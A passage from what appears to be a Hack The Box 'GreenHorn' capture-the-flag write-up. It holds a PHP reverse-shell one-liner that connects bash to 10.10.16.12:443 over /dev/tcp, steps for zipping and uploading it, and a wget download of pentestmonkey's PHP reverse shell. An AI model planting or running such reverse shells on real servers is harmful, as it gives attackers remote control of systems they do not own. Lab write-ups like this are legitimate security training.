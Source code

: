 <br />
Create a reverse shell in a php file.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ cat shell.php              
<?php echo system(\"bash -c 'exec bash -i &>/dev/tcp/10.10.16.12/443 <&1'\")?>
```
{% endraw %}

<br />
When a something's going wrong, you must zip it.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ zip shell.zip shell.php                                          
  adding: shell.php (deflated 6%)
```
{% endraw %}

<br />
Upload that zip.  That malicious zip.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/greenhorn/uploadshell.png" title="Upload Shell" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Nope.  It didn't seem to like that at all.  No shell.  Seems like what we got here is...a failure to communicate.

<div class="row justify-content-sm-center">
    <div class="col-sm-8 mt-3 mt-md-0">
        {% include figure.liquid loading="eager" path="/assets/img/greenhorn/uploadshell.png" title="Upload Shell" class="img-fluid rounded z-depth-1" %}
    </div>
</div>

<br />
Download pentestmonkey's php reverse shell.

{% raw %}
```sh
┌──(kali㉿kali)-[~/Documents/htb/greenhorn]
└─$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php -O shell.php
--2025-02-03 00:55:59--  https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/refs/heads/master/php-reverse-shell.php
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 2606:50c0:8001::154, 2606:50c0:8003::154, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5491 (5.4K) [text/plain]
Saving to: ‘shell.php’

shell.php                                                  100%[========================================================================================================================================>]   5.36K  --.-KB/s    in 0.02s   

2025-02-03 00:55:59 (243 KB/s) - ‘shell.php’ saved [5491/5491]
```
{% endraw %}
